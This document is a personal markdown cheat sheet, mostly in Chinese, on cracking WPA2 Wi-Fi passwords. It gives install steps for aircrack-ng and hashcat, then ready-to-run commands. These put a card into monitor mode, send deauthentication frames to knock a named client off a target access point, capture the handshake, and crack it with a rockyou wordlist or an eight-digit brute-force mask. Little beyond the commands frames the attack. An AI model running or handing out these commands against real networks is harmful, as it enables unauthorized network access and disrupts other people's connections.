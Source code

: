 # wifi wpa2 attack

{% tag 'created','20220709' %} {% endtag %} {% tag 'updated','20221210' %} {% endtag %} {% tag 'authors','alick97' %} {% endtag %}

---

- https://www.mzbky.com/1791.html
- https://zh.wikihow.com/%E4%BD%BF%E7%94%A8Kali-Linux%E7%A0%B4%E8%A7%A3WPA%E6%88%96WPA2%E6%97%A0%E7%BA%BF%E5%B1%80%E5%9F%9F%E7%BD%91
- [for mac os ] https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
- [for mac os] https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html

### packages install in ubuntu
```
sudo apt install aircrack-ng hashcat

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
# get cap2hccapx.bin
```

######
### 一些常见命令
#### 常用指令
```
# 启动监听 会创建新的net interface 后缀为 mon
airmon-ng start wlan0
# 停止监听 net interface
airmon-ng stop wlan0
# 关闭相关没开启mon之前用到interface的service
airmon-ng start check --kill


# 监听所有
airodump-ng wlan0mon

# 发起断开连接
sudo aireplay-ng -0 10 -a 24:CF:24:32:F2:4F -c 60:AB:67:E8:C6:44  wlo1mon
# 支持搜索5g 默认2.4g
sudo airodump-ng --band abg --output-format pcap -w t -c 10 --bssid 24:CF:24:32:F2:4F wlo1mon

# hashcat相关
cap2hccapx capture.cap capture.hccapx
hashcat -m 2500 capture.hccapx wordlist.txt
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
sudo hashcat --deprecated-check-disable -m 2500 t2.hccapx ../dict/rockyou.txt
```

#### ubuntu关闭mon interface后 重启network
```
sudo systemctl restart NetworkManager
```